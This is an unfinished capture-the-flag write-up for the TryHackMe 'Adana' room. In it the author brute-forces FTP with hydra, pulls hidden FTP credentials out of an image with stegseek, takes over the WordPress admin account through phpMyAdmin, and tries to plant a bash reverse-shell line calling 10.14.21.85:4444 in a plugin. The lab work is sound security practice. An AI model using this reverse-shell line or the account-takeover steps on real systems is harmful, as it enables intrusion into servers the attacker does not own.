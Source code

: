 Adana
-----
Link: https://tryhackme.com/room/adana

Description
```
﻿Hello there
We will tend to think differently in this room.
In fact, we will understand that what we see is not what we think, and if you go beyond the purpose, you will disappear in the room, fall into a rabbit hole.﻿
```

When trying to navigate to the wp-admin page in firefox we are redirected to
this page: http://adana.thm/wp-login.php?redirect_to=http%3A%2F%2F10.10.32.11%2Fwp-admin%2F&reauth=1

and firefox cant find the site. Lets add adana.thm to the hosts file.

That works better.

If we go to http://adana.thm/announcements/, we can see two files:
[IMG]	austrailian-bulldog-ant.jpg	2021-01-11 11:51 	58K
[TXT]	wordlist.txt	2021-01-11 13:48 	394K

Let's download them and see if we find anything interesting.
wordlists.txt looks like a list of possible passwords.
We could try to hydra our way into the FTP server, although we don't have any
username. We could guess that it is "adana".

No dice.
```
$ hydra -l adana -P website/wordlist.txt adana.thm ftp
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-21 18:42:11
[DATA] max 16 tasks per 1 server, overall 16 tasks, 50000 login tries (l:1/p:50000), ~3125 tries per task
[DATA] attacking ftp://adana.thm:21/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-21 18:42:13
```

Let's try if we can do some steganography on the JPG-file we downloaded.
For this we can use stegseek:
```
$ stegseek austrailian-bulldog-ant.jpg ./wordlist.txt extracted_stegseek
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "123adanaantinwar"
[i] Original filename: "user-pass-ftp.txt".
[i] Extracting to "extracted_stegseek".
```

Looks like we found something:
```
$ cat extracted_stegseek
RlRQLUxPR0lOClVTRVI6IGhha2FuZnRwClBBU1M6IDEyM2FkYW5hY3JhY2s=
```

Looks like a base64-encoded string, what do we get if we decode it?
```
FTP-LOGIN
USER: hakanftp
PASS: 123adanacrack
```

Now we can login via ftp:
```
$ lftp adana.thm -u hakanftp
Password:
lftp hakanftp@adana.thm:~>
```

By the looks of the files in the directory, it looks like the wordpress-site.
However, if I try to upload a file to it, for example test.php, it 404:s.

So I don't think this is the website that is displayed.

The wp-settings.php file looks a bit odd:
```
lftp hakanftp@adana.thm:/> ls
drwxr-xr-x    2 0        0            4096 Jan 14  2021 announcements
-rw-r--r--    1 1001     1001          405 Feb 06  2020 index.php
-rw-r--r--    1 1001     1001           13 Aug 21 19:09 license.txt
-rw-r--r--    1 1001     1001         7278 Jun 26  2020 readme.html
-rwxrwxrwx    1 1001     1001           62 Aug 21 19:06 test.php
-rw-r--r--    1 1001     1001         7101 Jul 28  2020 wp-activate.php
drwxr-xr-x    9 1001     1001         4096 Dec 08  2020 wp-admin
-rw-r--r--    1 1001     1001          351 Feb 06  2020 wp-blog-header.php
-rw-r--r--    1 1001     1001         2328 Oct 08  2020 wp-comments-post.php
-rw-r--r--    1 0        0            3194 Jan 11  2021 wp-config.php
drwxr-xr-x    4 1001     1001         4096 Dec 08  2020 wp-content
-rw-r--r--    1 1001     1001         3939 Jul 30  2020 wp-cron.php
drwxr-xr-x   25 1001     1001        12288 Dec 08  2020 wp-includes
-rw-r--r--    1 1001     1001         2496 Feb 06  2020 wp-links-opml.php
-rw-r--r--    1 1001     1001         3300 Feb 06  2020 wp-load.php
-rw-r--r--    1 1001     1001        49831 Nov 09  2020 wp-login.php
-rw-r--r--    1 1001     1001         8509 Apr 14  2020 wp-mail.php
-rw-r--r--    1 1001     1001        20975 Nov 12  2020 wp-settings.php
-rw-r--r--    1 1001     1001        31337 Sep 30  2020 wp-signup.php
-rw-r--r--    1 1001     1001         4747 Oct 08  2020 wp-trackback.php
-rw-r--r--    1 1001     1001         3236 Jun 08  2020 xmlrpc.php
```

I would compare it to a known good wordpress install, but I don't have one
readily available and don't have the energy to install one. It looks like it is
owned by root.

## Down the rabbit hole
It contains defines of DB_USER and DB_PASSWORD which can be used to login to
http://adana.thm/phpmyadmin:
```
/** MySQL database username */
define( 'DB_USER', 'phpmyadmin' );

/** MySQL database password */
define( 'DB_PASSWORD', '12345' );

```

It feels almost like too easy to be true, and reading the description of the room
it feels eerily suspicious.

Looking around the phpmyadmin-page, we find two databases. phpmyadmin and
phpmyadmin1. In the wp_posts table we can find the post on adana.thm:

phpmyadmin:
```
<!-- wp:paragraph -->
<p>Welcome to WordPress. This is your first post. Edit or delete it, then start writing!</p>
<!-- /wp:paragraph -->
```

phpmyadmin1:
```
<!-- wp:paragraph -->
<p>Welcome to WordPress. This is your first post. Edit or delete it, then start writing! HAKANBEY</p>
<!-- /wp:paragraph -->
```
I wonder if HAKANBEY can be a clue.

When I changed the text of the first entry in phpmyadmin/wp_posts the text on
adana.thm changes. Lets see if we can get a reverse shell by inserting php-code
somewhere.

Trying to embed php-code into posts or comments doesn't work. The ideal would
be if we could get access to the admin page somehow.

In the phpmyadmin/wp_users, we find an interesting line:
```
1 	hakanbey01 	$P$BQML2QxAFBH4hb.qqKTpDnta6Q6Wl2/ 	hakanbey01 	hakanbey01@thm.com 	http://asd.thm 	2021-01-10 23:07:29 		0 	hakanbey01
```
The corresponding line in phpmyadmin1/wp_users:
```
1 	hakanbey01 	$P$BEyLE6bPLjgWQ3IHrLu3or19t0faUh. 	hakanbey01 	hakanbey01@thm.com 	http://asd.thm 	2021-01-10 23:07:29 		0 	hakanbey01
```

I wonder where http://asd.thm leads us? We'll add it to /etc/hosts and see.
It leads to the exact same page. It could be that I don't quite understand
how vhosts work.

We can now simply change the password using phpmyadmin, so lets generate a
hash for the password "password", so we can log in to wordpress with the following
credentials.
hakanbey01:password (hash: $P$BUxwQ9E6ZkxqCIcCmzPwTtRktTl03u1)

It seems that we can access the admin interface. Here we can see that there are
two plugins installed. "Hello Dolly", and "Akismet Anti-spam".

Let's see if we can use Dolly to get a reverse shell. By using the plugin editor
we can add the following line to the Dolly plugin:
```
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.14.21.85/4444 0>&1'");
```

Although, our plan seems to be foiled by file permissions:
```
 You need to make this file writable before you can save your changes. See Changing File Permissions for more information.
```

We are able to use lftp to alter the permissions:
```
lftp hakanftp@adana.thm:/wp-content/plugins> chmod 777 hello.php
lftp hakanftp@adana.thm:/wp-content/plugins> ls
drwxr-xr-x    4 1001     1001         4096 Dec 08  2020 akismet
-rwxrwxrwx    1 1001     1001         2578 Mar 18  2019 hello.php
-rw-r--r--    1 1001     1001           28 Jun 05  2014 index.php
```
But this doesn't help, since I don't think the files we can access through the
ftp are the ones we can access through Firefox.

There is a way to get a reverse shell by replacing the 404.php code with a
reverse shell, but those files are not writeable either.

I'm starting to suspect this is the rabbit hole referenced in the room
description.

## Back out of the rabbit hole?
So let's go back a few steps. I downloaded the JPG-file and the wordlist.txt
using a webbrowser. I should look and see if they are the same as the ones
accessible from the FTP server.

So lets repeat the steps from above.

Nope, they are the same.

It's getting late, let's table this for another day.
